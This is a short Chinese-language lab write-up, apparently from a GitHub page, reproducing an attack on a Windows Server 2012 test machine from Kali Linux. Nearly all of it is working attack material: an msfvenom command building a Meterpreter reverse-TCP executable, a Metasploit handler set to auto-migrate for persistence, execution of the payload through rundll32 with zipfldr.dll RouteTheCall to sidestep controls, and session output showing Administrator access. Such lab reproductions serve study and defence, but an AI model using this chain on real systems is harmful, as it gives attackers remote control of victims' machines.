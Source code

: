 ## 测试复现

### 测试环境

- **攻击机**：Kali Linux 2019，IP：192.168.126.146
- **靶机**：Windows Server 2012，IP：192.168.126.156
- **工具**：Metasploit，`msfvenom`

### 测试过程

#### 1. 生成Payload（攻击机）

**命令**：
```bash
msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\x0b' LHOST=192.168.126.146 LPORT=4444 -f exe > shell.exe
```

**说明**：
- 生成Meterpreter反向TCP Payload，排除坏字符`\x00\x0b`。
- 输出文件`shell.exe`，需传输至靶机。

#### 2. 配置监听（攻击机）

**命令**：
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.126.146
set LPORT 4444
set AutoRunScript post/windows/manage/migrate
exploit
```

**说明**：
- 配置反向Shell监听，自动迁移进程以提升持久性。
- `post/windows/manage/migrate`替换已弃用的`migrate f`。

#### 3. 靶机执行Payload

**命令**：
```cmd
rundll32.exe zipfldr.dll,RouteTheCall C:\Path\To\shell.exe
```

**结果**：
- `shell.exe`执行，触发反向Shell连接至攻击机。
- 攻击机Metasploit接收会话：
  ```
  [*] Started reverse TCP handler on 192.168.126.146:4444
  [*] Sending stage (180291 bytes) to 192.168.126.156
  [*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.156:49176) at 2023-10-01 10:00:00 +0800
  meterpreter > getuid
  Server username: WIN-IFPMACUK8BT\Administrator
  ```
